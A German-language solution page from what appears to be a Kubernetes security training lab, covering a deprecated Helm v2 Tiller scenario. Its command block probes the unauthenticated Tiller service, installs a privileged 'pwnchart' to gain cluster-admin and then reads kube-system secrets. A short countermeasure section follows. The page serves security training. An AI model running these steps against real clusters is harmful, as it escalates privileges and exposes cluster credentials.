

# Szenario 09 – Helm v2 Tiller to PwN the Cluster *(Deprecated)*

- **Kategorie**: RBAC & Admission Control
- **Zielressource**: Service `tiller-deploy.kube-system` auf Port `44134`

## Kurzinfo & Risiko
In Helm v2 lief der Server-Dienst **Tiller** standardmäßig unauthentifiziert auf `0.0.0.0:44134` in `kube-system` mit vollen `cluster-admin`-Rechten. Jeder Pod im Cluster konnte darüber ein Privilegien-Chart installieren. *(Historisches Szenario, da Tiller in Helm v3 entfernt wurde.)*

## Solution
```bash
# Szenario-Pod starten
kubectl run --rm --restart=Never -it --image=madhuakula/k8s-goat-helm-tiller -- bash

# Tiller-Erreichbarkeit und fehlende Rechte vorab prüfen
telnet tiller-deploy.kube-system 44134
helm --host tiller-deploy.kube-system:44134 version
kubectl get secrets -n kube-system

# Chart /pwnchart installieren und anschließend kube-system Secrets auslesen
helm --host tiller-deploy.kube-system:44134 install --name pwnchart /pwnchart
kubectl get secrets -n kube-system
```



## Gegenmaßnahmen
- Auf **Helm v3** aktualisieren (kein Tiller mehr) und interne Control-Plane-Dienste per `NetworkPolicy` abschotten.

---
[← Vorheriges Szenario](./scenario-08.md) | [Solutions-Übersicht](./README.md) | [Nächstes Szenario →](./scenario-10.md)
